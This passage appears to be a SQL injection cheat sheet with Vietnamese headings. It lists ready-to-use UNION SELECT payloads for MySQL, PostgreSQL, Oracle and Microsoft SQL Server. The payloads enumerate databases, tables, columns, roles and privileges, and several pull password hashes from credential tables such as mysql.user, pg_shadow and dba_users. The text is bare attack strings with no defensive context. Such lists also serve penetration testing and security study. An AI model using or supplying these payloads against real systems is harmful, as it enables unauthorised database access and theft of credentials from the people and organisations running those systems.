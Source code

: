 ## Payload cho MySQL

```
' UNION SELECT 1,VERSION(),DATABASE(),USER(),5 --
' UNION SELECT 1,@@version,@@datadir,USER(),5 --
' UNION SELECT 1,table_name,column_name,4,5 FROM information_schema.columns --
' UNION SELECT 1,table_schema,table_name,4,5 FROM information_schema.tables --
' UNION SELECT 1,schema_name,3,4,5 FROM information_schema.schemata --
' UNION SELECT 1,user,password,4,5 FROM mysql.user --
' UNION SELECT 1,host,user,password,5 FROM mysql.user --
' UNION SELECT 1,grantee,privilege_type,is_grantable,5 FROM information_schema.user_privileges --
' UNION SELECT 1,variable_name,variable_value,4,5 FROM information_schema.global_variables --
' UNION SELECT 1,variable_name,variable_value,4,5 FROM information_schema.session_variables --
' UNION SELECT 1,engine,support,comment,5 FROM information_schema.engines --
' UNION SELECT 1,plugin_name,plugin_status,plugin_type,plugin_library FROM information_schema.plugins --
```

## Payload cho PostgreSQL

```
' UNION SELECT 1,version(),current_database(),current_user(),5 --
' UNION SELECT 1,datname,3,4,5 FROM pg_database --
' UNION SELECT 1,schemaname,tablename,4,5 FROM pg_tables --
' UNION SELECT 1,table_name,column_name,data_type,5 FROM information_schema.columns --
' UNION SELECT 1,usename,passwd,4,5 FROM pg_shadow --
' UNION SELECT 1,usename,usesuper,usecreatedb,5 FROM pg_user --
' UNION SELECT 1,rolname,rolsuper,rolcreatedb,rolcreaterole FROM pg_roles --
```

## Payload cho Oracle

```
' UNION SELECT 1,banner,3,4,5 FROM v$version --
' UNION SELECT 1,username,password,4,5 FROM dba_users --
' UNION SELECT 1,owner,table_name,4,5 FROM all_tables --
' UNION SELECT 1,table_name,column_name,data_type,5 FROM all_tab_columns --
' UNION SELECT 1,privilege,grantee,4,5 FROM dba_sys_privs --
' UNION SELECT 1,granted_role,grantee,admin_option,5 FROM dba_role_privs --
```

## Payload cho Microsoft SQL Server

```
' UNION SELECT 1,@@version,DB_NAME(),USER_NAME(),5 --
' UNION SELECT 1,name,database_id,4,5 FROM sys.databases --
' UNION SELECT 1,name,object_id,schema_id,5 FROM sys.tables --
' UNION SELECT 1,name,column_id,system_type_id,5 FROM sys.columns --
' UNION SELECT 1,name,principal_id,type_desc,5 FROM sys.server_principals --
' UNION SELECT 1,name,database_id,type_desc,5 FROM sys.database_principals --
```
